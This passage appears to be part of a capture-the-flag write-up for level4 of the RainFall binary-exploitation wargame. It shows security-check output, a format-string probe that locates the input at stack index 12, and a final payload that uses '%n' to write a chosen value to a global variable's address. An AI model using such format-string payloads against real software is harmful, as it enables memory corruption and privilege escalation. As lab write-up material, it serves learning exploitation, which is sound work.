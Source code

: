 ```
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

This seems pretty similar, same fgets call, different printf

We can try and find the index of our input string

```
level4@RainFall:~$ python -c 'print("AAAA%x " * 20)' | ./level4 
AAAAb7ff26b0 AAAAbffff794 AAAAb7fd0ff4 AAAA0 AAAA0 AAAAbffff758 AAAA804848d AAAAbffff550 AAAA200 AAAAb7fd1ac0 AAAAb7ff37d0 AAAA41414141 AAAA41207825 AAAA25414141 AAAA41412078 AAAA78254141 AAAA41414120 AAAA20782541 AAAA41414141 AAAA41207825 
```

Index 12 it seems.

Now to get the address of m with gdb, 0x08049810
So if we try like like times it gives us

```
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'| ./level4
``